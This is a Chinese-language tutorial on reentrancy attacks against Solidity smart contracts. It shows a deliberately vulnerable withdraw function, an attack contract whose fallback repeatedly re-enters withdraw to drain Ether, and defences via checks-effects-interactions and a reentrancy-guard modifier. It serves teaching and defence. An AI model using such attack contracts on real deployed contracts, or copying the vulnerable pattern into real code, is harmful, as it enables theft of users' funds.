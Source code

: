 # 重入攻击

## 什么是重入攻击？

重入攻击是一种针对智能合约的安全漏洞。攻击者通过在合约执行过程中**多次调用**另一个合约，来利用合约状态**未正确更新**的漏洞，从而实现非法访问和控制合约的目的。

攻击者利用了智能合约在**执行外部调用**时，**不会暂停**当前合约的执行，而是**直接跳转**到外部合约执行指定函数，因此在外部合约执行结束前，攻击者可以**再次进入**原始合约，从而实现重复攻击。

## 实现

我们给出一个最简单的例子，就拿合约存储`Eth`来讲。

以下例子有两个函数。

一个是用于往合约里存储`Eth`，另一个就是取出`Eth`，就只是做一个简单的余额判断再用`call`函数来转账。

```solidity
contract Demo {
    mapping (address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public {
        require(balances[msg.sender] >= _amount);
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");
        balances[msg.sender] -= _amount;
    }
}
```

接下来我们看看攻击合约，最重要的就是`fallback()`的处理。

1. 往`Demo`中存`Eth`并调用`withdraw`取出刚存入的`Eth`

2. 触发`withdraw`后，`Demo`中前置检查没有问题，走到`msg.sender.call`时，转账并且触发`Attack`中的`fallback()`

3. 可以看到`fallback`中有一个循环，里面多次调用`demo.withdraw`。因为在使用`call()`转账前，`withdraw`函数都没有对余额进行任何的修改，导致前置检查不出任何问题。

4. 所以可以多次调用`withdraw`直到`Demo`中的`Eth`耗尽

```solidity
contract Attack {
    uint256 public count;

    fallback() external payable {
        if (count < 5) {
            count++;
            demo.withdraw(msg.value);
        }
    }

    function attack() public payable {
        demo.deposit{value: msg.value}();
        demo.withdraw(msg.value);
    }
}
```

## 如何防范？

1. 在**调用外部合约之前**确保**所有状态更改**都已发生，即在调用外部代码之前更新余额或内部代码
2. 使用防止重入的**函数修饰符**。
3. 使用**检查-效果-交互**模式也是一种可靠的防护方法

就`Demo`而已，可以把`balances[msg.sender] -= _amount;`，放在转账语句前

也可以使用防止重入的函数修饰符

```solidity
contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
  
    }
}


contract Protect is ReEntrancyGuard{

    mapping (address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public noReentrant {
        require(balances[msg.sender] >= _amount);
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");
        balances[msg.sender] -= _amount;
    }

}
```

[测试案例（没有防重入）](../../../test/hacks/reentrancy/Reentrancy.t.sol)
[测试案例（防重入）](../../../test/hacks/reentrancy/Guard.t.sol)

